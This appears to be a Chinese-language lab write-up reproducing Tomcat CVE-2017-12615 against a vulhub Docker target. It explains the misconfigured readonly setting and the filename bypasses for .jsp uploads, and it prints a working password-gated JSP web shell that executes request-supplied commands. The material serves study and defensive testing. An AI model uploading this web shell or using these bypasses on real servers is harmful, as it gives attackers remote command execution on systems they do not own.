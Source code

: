 # 漏洞复现——Tomcat任意文件写入CVE-2017-12615

# 一、漏洞原理

1. 由于配置不当，将配置文件conf/web.xml中的readonly设置为了false（默认为true），导致用户可以使用PUT方法上传任意文件，并可执行任意代码，但限制了jsp后缀文件的上传，但可以利用文件系统特性进行绕过。

2. 在windows服务器下，可使用空格、NTFS流（文件名后加::$DATA）、“/”绕过。linux下也可通过“/”来绕过限制。

3. 影响版本：7.0.0-7.0.81

# 二、漏洞复现

1. vulhub/tomcat/CVE-2017-12615目录下docker启动环境

   ``` shell
   sudo docker-compose up -d
   ```

2. 启动后访问http://靶机IP:8080，使用BurpSuite抓包，发现是GET请求

3. 修改数据包为PUT请求，测试是否可以写入文件，尝试写入一个test.txt文件，查看响应数据包

   ![2.png](img/TomcatUpload/Image2.png)

4. 返回状态码201，访问http://靶机IP:8080/test.txt，页面显示内容为test，创建test.txt文件并写入内容成功

   ![3.png](img/TomcatUpload/Image3.png)

5. 尝试使用PUT方法写入一个jsp马，代码如下

   ``` java
   <%
       if("thisispasswd".equals(request.getParameter("pwd"))){
           java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
           int a = -1;          
           byte[] b = new byte[1024];          
           out.print("<pre>");          
           while((a=in.read(b))!=-1){
               out.println(new String(b));          
           }
           out.print("</pre>");
       }
   %>
   ```

6. 使用“/”进行绕过，响应状态码201，写入文件成功

   ![4.png](img/漏洞复现Tomcat任意文件上传/Image4.png)

7. 访问jsp马文件，成功执行命令

   ![5.png](img/漏洞复现Tomcat任意文件上传/Image5.png)